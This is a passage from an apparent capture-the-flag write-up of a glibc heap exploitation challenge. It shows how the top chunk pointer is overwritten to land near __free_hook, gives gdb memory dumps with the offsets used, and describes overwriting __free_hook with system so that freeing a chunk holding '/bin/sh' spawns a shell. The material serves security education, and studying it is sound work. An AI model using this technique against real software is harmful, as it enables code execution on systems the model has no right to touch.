 The only constraint here is that the address we overwrite the top chunk pointer with must have chunk metadata right above it that makes it look like the top chunk. If you are unsure what that looks like, you may view my writeup of [message_saver](/2019-09-30-bsides-delhi-message-saver/) to see how it looks like in memory.
```c
struct malloc_state
{
  /* Serialize access.  */
  mutex_t mutex;

  /* Flags (formerly in max_fast).  */
  int flags;

  /* Fastbins */
  mfastbinptr fastbinsY[NFASTBINS];

  /* Base of the topmost chunk -- not otherwise kept in a bin */
  mchunkptr top; <-.
  //  We overwrite this pointer to change the location of the top chunk in memory

	...
```

Of course none of the one gadgets worked. It would be a bad challenge if it was exactly the same as his previous challenge right? So I had to come up with something else. NotDeGhost had also told me that it was possible to overwrite `__free_hook` somehow, and after a while, this is the solution I came up with:

First, using the leaked `__free_hook` address, I tried to see if there was a place above `__free_hook` where I could point the top chunk pointer to. After a bunch of trial and error, I found this:
```c
// __free_hook = 0x7f7b4adaa7a8
gef➤  x/20gx 0x7f7b4adaa7a8 - 0x1100 + 0x70 - 0x5 - 0x10
0x7f7b4ada9703 <stderr+3>:      0xda962000007f7b4a      0xda88e000007f7b4a <--.
0x7f7b4ada9713 <stdin+3>:       0xa04b7000007f7b4a      0x00000000007f7b4a    |
0x7f7b4ada9723: 0x0000000000000000      0x0000000000000000      looks like top chunk header
0x7f7b4ada9733: 0x0000000000000000      0x0000000000000000   
0x7f7b4ada9743: 0x0000000000000000      0x0000000000000000   
0x7f7b4ada9753: 0x0000000000000000      0x0000000000000000   
0x7f7b4ada9763: 0x0000000000000000      0x0000000000000000
0x7f7b4ada9773: 0x0000000000000000      0x0000000000000000
0x7f7b4ada9783: 0x0000000000000000      0x0000000000000000
0x7f7b4ada9793: 0x0000000000000000      0x0000000000000000
```

At `__free_hook - 0x1100 + 0x70 - 0x5`, we have a valid location to overwrite the top chunk pointer with. The idea for me here was that I would change the top chunk's location in memory to here, and then allocate enough chunks to the point where I get a chunk right on top of `__free_hook`, and then overwrite it with the address of `system`.

After that, if I call `free(chunkptr)`, it will actually call `((*)__free_hook)(chunkptr, ...)`, which gets converted to `system(chunkptr)`. If the first 8 bytes of `chunkptr` in our example happen to be `/bin/sh\x00`, it will call `system("/bin/sh\x00")`. Just what we need.
```c
void
__libc_free (void *mem) // mem is the pointer to the chunk we free
{
  mstate ar_ptr;
  mchunkptr p;                          /* chunk corresponding to mem */

  void (*hook) (void *, const void *)
    = atomic_forced_read (__free_hook);
  if (__builtin_expect (hook != NULL, 0))
    {
      (*hook)(mem, RETURN_ADDRESS (0)); // <- we can overwrite hook to point to system
      return;
```